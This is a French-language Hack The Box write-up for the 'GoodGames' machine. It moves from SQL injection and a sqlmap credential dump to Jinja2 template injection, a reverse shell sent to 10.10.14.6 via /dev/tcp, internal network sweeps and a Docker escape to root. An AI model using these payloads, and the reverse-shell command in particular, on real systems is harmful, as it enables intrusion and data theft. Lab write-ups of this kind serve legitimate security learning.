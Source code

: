 ```yaml
---
title: "GoodGame-HTB"
date: 2025-05-03T20:00:00+02:00
draft: false
tags: ["hackthebox", "writeup",]
categories: ["writeup"]
summary: "Difficulte : esay"
cover:
  image: "images/"
  alt: "goodgame"
showToc: true
tocOpen: true
---
```


# Enumeration 
## Nmap 

Nous débutons notre phase de reconnaissance par un scan Nmap de la cible.

```bash
80/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.9.2)
|_http-title: GoodGames | Community and Store
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS POST
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
```

L’analyse révèle que seul le port **80** est ouvert et qu’il héberge un serveur HTTP Python via **Werkzeug 2.0.2**.

---

## Serveur Web Python

En accédant au site via le port 80, nous tombons sur une interface web : `http://goodgames.htb/`

> _Ajout de l’entrée DNS au fichier hosts :_

```bash
sudo echo "10.10.11.130   goodgames.htb" >> /etc/hosts
```

En inspectant la fonctionnalité de connexion, une tentative d'injection SQL est envisagée. Toutefois, l'application impose la saisie d’une adresse e-mail valide.

Nous utilisons alors une adresse valide, puis interceptons la requête dans **Burp Suite** pour modifier l’e-mail en `admin@goodgames.htb`. Une fois soumise, un message de bienvenue s’affiche, indiquant une possible compromission du compte administrateur.

![Connexion réussie](/images/20250417163258.png)

---

## Injection SQL

Après confirmation d'une vulnérabilité SQLi, nous enregistrons la requête HTTP dans un fichier nommé `goodgames.req` afin de l'exploiter avec **sqlmap**.

```bash
sqlmap -r goodgames.req --dbs
```

Sqlmap révèle deux bases de données :

- `information_schema`
    
- `main`
    

![Bases de données détectées](/images/20250417165918.png)

Nous listons ensuite les tables de la base `main` :

```bash
sqlmap -r goodgames.req -D main --tables
```

![Tables listées](/images/20250417170201.png)

Et enfin, nous extrayons les données de la table `user` :

```bash
sqlmap -r goodgames.req -D main -T user --dump
```

![Dump utilisateurs](/images/20250417171542.png)

Résultat :

```
admin@goodgames.htb : superadministrator
```

---

## Portail Interne d'Administration

En haut à droite du tableau de bord, une icône d’engrenage mène à une URL interne :  
`http://internal-administration.goodgames.htb/login`

> _Ajout de l’entrée dans le fichier hosts :_

```bash
sudo echo "10.10.11.130   internal-administration.goodgames.htb" >> /etc/hosts
```

Nous utilisons les identifiants extraits (`admin / superadministrator`) pour accéder à l’interface d'administration. Cela nous donne accès au dashboard.

![Dashboard admin](/images/20250421140123.png)

---

## SSTI (Server-Side Template Injection)

Nous suspectons une vulnérabilité **SSTI**. Une charge utile de test est injectée :

```jinja
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

![Test SSTI](/images/20250421141229.png)

La commande est exécutée, confirmant la vulnérabilité. Nous exploitons cela pour obtenir un reverse shell :

```jinja
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() }}
```

![Reverse shell SSTI](/images/20250421141957.png)

---

## Escalade de Privilèges

### Énumération

L’environnement montre plusieurs signes d’une exécution dans un **conteneur Docker**. On y observe également des fichiers liés à un utilisateur inconnu (`UID 1000`) inexistant dans `/etc/passwd`.

![Fichiers docker](/images/20250421142430.png)

Une adresse IP privée suggère une architecture en réseau Docker. Nous réalisons un scan ping :

```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" &); done
```

Et un scan des ports :

```bash
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```

Le processus `docker` est actif sur le système.

![Processus docker](/images/20250421143838.png)

L'utilisateur `augustus`, présent sur le système, dispose d’un répertoire utilisateur contenant des fichiers identiques à ceux du conteneur.

---

## Évasion de Conteneur & Accès Root

Nous copions `/bin/bash` dans le répertoire d’**augustus** :

![Copie bash](/images/20250421145143.png)

Puis exécutons le binaire avec l’option `-p` pour préserver les privilèges root :

![Bash -p](/images/20250421145406.png)

```bash
./bash -p
```

Cela nous accorde un shell avec les droits root hors du conteneur.

